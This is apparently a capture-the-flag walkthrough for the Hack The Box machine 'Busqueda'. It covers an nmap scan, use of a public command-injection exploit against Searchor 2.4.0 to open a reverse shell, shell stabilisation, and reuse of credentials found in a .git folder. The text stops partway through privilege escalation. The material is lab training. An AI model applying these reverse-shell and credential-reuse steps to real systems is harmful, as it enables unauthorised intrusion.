 # Box: Busqueda
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.78.165 -v -p- -T4```

```
Nmap scan report for searcher.htb (10.129.78.185)
Host is up (0.34s latency).
Not shown: 65369 closed tcp ports (reset), 164 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-title: Searcher
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/30%OT=22%CT=1%CU=43868%PV=Y%DS=2%DC=T%G=Y%TM=653FBF
OS:10%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=10A%TI=Z
OS:%CI=Z%II=I%TS=A)SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)OPS(O1=M53CST11N
OS:W7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CS
OS:T11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=4
OS:0%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(
OS:R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=
OS:)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%
OS:UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 11.571 days (since Thu Oct 19 01:53:13 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 587/tcp)
HOP RTT       ADDRESS
1   446.93 ms 10.10.14.1
2   447.06 ms searcher.htb (10.129.78.185)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 30 15:34:56 2023 -- 1 IP address (1 host up) scanned in 1764.04 seconds
```
From our nmap scan we have 2 open ports, port 22 which runs ssh and port 80 which runs http. Our enumeration today will be focused on port 80



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5c2b168c-3cd6-4abe-a7d9-204d873c455b)

We'll add this domain name to our ```/etc/hosts``` file

Now lets navigate back to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b92cb0f7-c047-4dee-bf25-13d998954717)

Scrolling down,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/25743998-e3bb-4668-8613-56f1ceab850e)

Take a look at the version of ```searchor``` running on this machine

Checking google

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a3473cb1-52f6-447f-965e-7ab16893e543)

Lets exploit this



# Exploitation

We will be using this github [exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/blob/main/exploit.sh)

Download this to your machine and make it executable

command:```chmod +x exploit.sh```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/busqueda]
└─$ chmod +x exploit.sh 
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/busqueda]
└─$ ls -l exploit.sh
-rwxr-xr-x 1 bl4ck4non bl4ck4non 866 Oct 30 15:33 exploit.sh
```
To run the exploit script

command:```./exploit.sh searcher.htb LHOST LPORT```

Ensure you set your netcat listener before running this command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/1f6c0a12-af2d-4f8f-82cd-a7dd7df7a35f)

Nice, we spawned a reverse shell. To stabilize this shell

```
python3 -c “import pty;pty.spawn(‘/bin/bash’)”
ctrl + z (to background)
stty raw -echo && fg
export TERM=xterm
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5d827207-27d9-44a1-8ccf-07a82c0d79d1)

Lets go ahead to escalate our privileges



# Privilege Escalation

The directory ```/var/www/app``` contains a .git folder

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a526bda4-35f2-42a2-8053-5ac6050a3a07)

Inside the folder

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/1786cfdc-f16c-450d-bf49-29948ad23b73)

That url looks weird actually, there was nothing interesting there when I checked though.

Looking at the way the url was structured, there was something like this ```cody:jh1usoih2bkjaspwe92@gitea.searcher.htb```. This part of the url ```cody:jh1usoih2bkjaspwe92``` actually looks like a username and password.

Lets run the ```sudo -l``` command, then we try the password ```jh1usoih2bkjaspwe92``` for the ```svc``` user

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6f1f79d4-397d-4c82-bdec-12d15ffdc19b)

nice nice, it worked. Also, you can see that we have sudo privileges to run the script ```/opt/scripts/system-checkup.py```. 

Checking out the content of the script

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a42cab6e-bbfe-47ea-86d8-c16b1439ee9a)

oops, we actually can't view the content of the script, we don't have enough privileges for that. One thing we can try to do is execute the script

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4792fec9-4b81-464f-a030-095693e05864)































